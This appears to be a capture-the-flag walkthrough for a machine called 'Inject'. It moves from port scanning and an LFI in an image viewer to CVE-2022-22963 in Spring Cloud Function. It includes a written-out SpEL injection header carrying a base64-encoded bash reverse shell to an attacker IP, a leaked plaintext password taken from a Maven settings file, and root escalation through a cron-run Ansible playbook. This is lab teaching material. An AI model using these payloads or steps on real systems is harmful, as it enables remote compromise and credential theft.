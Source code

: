 First step we need to do is, recon.
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see there complity nothing, let's go into page. Where can see just regular page for CTF, nothing working. Let's do directory enumeration.
```
blogs                   [Status: 200, Size: 5371, Words: 1861, Lines: 113, Duration: 86ms]
environment             [Status: 500, Size: 712, Words: 27, Lines: 1, Duration: 76ms]
error                   [Status: 500, Size: 106, Words: 3, Lines: 1, Duration: 63ms]
register                [Status: 200, Size: 5654, Words: 1053, Lines: 104, Duration: 429ms]
upload                  [Status: 200, Size: 1857, Words: 513, Lines: 54, Duration: 248ms]
```
We can see intresting directory, upload. Let's look on it
We can upload image, and view you image. 

![image](https://github.com/Anogota/Inject/assets/143951834/f371f176-25eb-4390-9715-0663d030e8d4)

Let's look close on the view your image, turn on burp and intercept the traffic.

And i did LFI

![image](https://github.com/Anogota/Inject/assets/143951834/64cfc9f5-d46c-42d3-acc4-e20bb34b8907)

We need now more dig to find more intresting. After few min i found intresting file.

![image](https://github.com/Anogota/Inject/assets/143951834/233e0643-5063-4d94-9769-84b606fa3604)

Now we know what kind of version working on the server, this is a:
```
<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
```
Let's search something about it, maybe we will find CVE for this verion.
I will show two ways, how get a reverse shell.
First will be msfconsole. This is a module what's give you a reverse-shell: ```exploit/multi/http/spring_cloud_function_spel_injection``` This is a way for noob, by this you don't learn anything.

![image](https://github.com/Anogota/Inject/assets/143951834/747fb917-4fd0-4e6d-b177-8960e5ca1ce1)

And you get a shell, let's now do secend way.
Intercept a traffic and go to reapter.
Then change request method to POST, write ```spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzkwMDEgMD4mMQo=}|{base64,-d}|{bash,-i}")``` I little bit change it, i got this from ```https://github.com/Kirill89/CVE-2022-22963-PoC/tree/master``` but rember to change it the base64, inside this in bash reverse-shell you can get it by, insert in terminal 

![image](https://github.com/Anogota/Inject/assets/143951834/8ca95f8f-3032-47a3-8444-2d99cab6e700)

And when you change everything insert this in intercept packiet in burp. and you got a shell

![image](https://github.com/Anogota/Inject/assets/143951834/bdee2cff-e1c1-4522-a53c-203650feadbf)

I little bit upgrade my shell.

![image](https://github.com/Anogota/Inject/assets/143951834/1692aed0-8fbf-4274-8f39-265d97b4a5c8)

I did some recon on the machine and i found intresting file in /home/frank/.m2
```
	<id>Inject</id>
      	<username>phil</username>
      	<password>DocPhillovestoInject123</password>
	<privateKey>${user.home}/.ssh/id_dsa</privateKey>
      	<filePermissions>660</filePermissions>
      	<directoryPermissions>660</directoryPermissions>
      	<configuration></configuration>
```
Now we can log in as phil by command: su phil 
And in his directory we can find, user.txt.
Now let's focus on priv esc root. I can't find anything intresting by command sudo -l, /etc/crontab /etc/shadow i download on machine LinEnum but still nothing and i decid to download pspy.
And i found /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml all script with .yml run as root, let's create a shell, and get a root.
Step to get a root: cd /opt/automation/task and create playbook_2.yml by vi playbook_2.yml, here's the script:

![image](https://github.com/Anogota/Inject/assets/143951834/2c2fb6ec-af52-4ad3-b316-b0b92671859c)

And we did, we got the root!

![image](https://github.com/Anogota/Inject/assets/143951834/4bbd6726-8d96-4fc9-bbd4-99f34ec38819)
